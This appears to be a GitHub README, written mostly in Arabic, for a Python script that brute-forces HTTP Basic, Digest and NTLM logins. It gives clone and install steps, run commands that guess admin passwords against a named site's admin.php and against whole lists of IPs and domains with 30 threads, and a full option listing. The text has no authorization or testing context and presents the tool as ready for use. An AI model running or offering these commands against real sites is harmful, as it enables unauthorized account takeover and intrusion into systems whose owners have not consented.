# Bruteforce HTTP Authentication


تخمين يوزر وباسورد صفحات البوب
يدعم  

* Basic HTTP authentication
* Digest HTTP authentication
* NTLM authentication
يعمل بكافة الاشكال تقريبا ويستخدم قوائم ايبيهات دومينات  ببورت بدون برابط او بدون  يعمل اى بى واحد او مجموعة 
يستخدم يوزر واحد او مجموعة يوزرات او باسورد واحد او مجموعة ضخمة  يخزن النتائج فى ملف نصي


قم بالبداية بتحميل هذا السكربت مباشرة على شاشة الروت ( الشاشة السوداء ) تمام

git clone --depth 1 https://github.com/palman2000/pop.git pop

أمر التركيب 
قم بتحديث نظام التشغيل ابنتوا

لتعمل لغة البرمجة بايثون الاصدار 3 وما فوق 


sudo apt-get update
sudo apt-get -y upgrade
python3 -V
sudo apt-get install -y python3-pip
sudo apt-get pip python3
pip install -r requirements.txt



أمر التشغيل
التجربة على هدف واحد

هذا الامر عند استخدام التجربة على هدف واحد واعرف اليوزر نيم وهو  ادمن  يبقى تجربة قائمة الباسوردات للعثور على الباسورد الصحيح
python3 auth.py -t https://mohammadelnwajha.com/admin.php -u admin -P password.txt -w 30 --verbose

--------------------------------------------------------------------------------
تجربة هدف واحد وتجربة ملف يوزرات وباسوردات للعثور على اليوزر والباسورد الصحيح للدخول

python3 auth.py -t https://mohammadelnwajha.com/admin.php -U username.txt -P password.txt -w 30 --verbose

------------------------------------------------------------------------------
امر التشغيل على مجموعة ايبيهات ودومينات من ملف الايبيهات  ويؤخد قائمة يوزر وباسوردات من ملفات اليوزر والباسورد  ويعمل بطاقة 30 عملية فى المرة الواحدة 
python3 auth.py -T IPS.txt -U username.txt -P password.txt -w 30 --verbose




أوامر السكربت

 -t TARGET, --target TARGET
                        URL
                        
  -T TARGETFILE, --targetfile TARGETFILE
                        File of URL
                        
  -u USERNAME, --username USERNAME
                        Username ("username" or "username:password")
                        
  -U USERNAMESFILE, --usernamesfile USERNAMESFILE
                        File of usernames ("username" or "username:password")
                        
  -p PASSWORD, --password PASSWORD
                        Password
                        
  -P PASSWORDSFILE, --passwordsfile PASSWORDSFILE
                        File of passwords
                        
  -w WORKERS, --workers WORKERS
                        Number of threads (interger between 1 and 100)
                        
  -o ORDER, --order ORDER
                        Targets order ("serie" or "parallel")
                        
  -v, --verbose         Verbose

مع تحيات ابو كريم 

